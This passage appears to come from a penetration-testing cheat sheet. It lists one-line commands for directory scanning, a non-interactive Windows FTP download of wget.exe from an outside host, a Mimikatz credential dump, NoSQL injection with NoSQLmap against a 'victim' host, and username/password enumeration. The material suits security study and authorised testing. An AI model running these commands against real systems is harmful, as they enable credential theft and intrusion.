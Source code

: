 Scan non recursively, non show attempts and bigger words list

```text
dirb http://192.168.1.10 /usr/share/dirb/wordlists/big.txt -r -S
```

### FTP

Non interactive FTP download from windows

```text
echo open 10.11.0.49 21 > ftp.txt
echo USER xnaaro >> ftp.txt
echo 12345>> ftp.txt
echo bin >> ftp.txt
echo GET wget.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

### Mimikatz

Non interactive hash dump

```text
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

### Webserver

Create a python webserver

```text
python -m SimpleHTTPServer 80
```

## NoSQLmap

```text
python nosqlmap.py --attack 2 --victim host.name --webPort 80 --uri / --httpMethod POST --postData username,test_user,password,test_password,login,login --injectedParameter 3 --injectSize 4 --injectFormat 2 --savePath output.log --verb ON
```

### NoSQl user/pass enum

```text
# Git repository: https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
python3 nosqli_enumeration.py -u http://localhost/index.php -up email -pp password -ep password -m POST
```

### Searchsploit

Search exploit

```text
searchsploit <name>
```
